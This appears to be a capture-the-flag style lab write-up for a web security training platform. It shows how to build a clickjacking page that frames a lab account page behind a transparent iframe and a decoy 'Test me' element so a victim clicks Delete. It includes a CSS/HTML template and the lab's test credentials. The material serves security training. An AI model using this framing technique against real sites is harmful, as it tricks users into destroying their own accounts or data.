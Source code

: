 ## Clickjacking with CSRF token Protection

![Masked inline frame illustration](images/click11.png)\



![Masked inline frame illustration](images/click12.png)\

### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

![Masked inline frame illustration](images/click18.png)\


### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...

![Masked inline frame illustration](images/click13.png)\

```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**
![Masked inline frame illustration](images/click13.png)\
![Masked inline frame illustration](images/click15.png)\
![Masked inline frame illustration](images/click14.png)\

**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**

![Masked inline frame illustration](images/click17.png)\

***And then you to store the exploit and Preivew the exploit is it correctly over the Delete Button***

***When the condition is favorable then deploy the exploit to the victim server**

### And BOOM Exploit works and You solve the labs

![Masked inline frame illustration](images/click16.png)\

***For more information stay tuned with us***
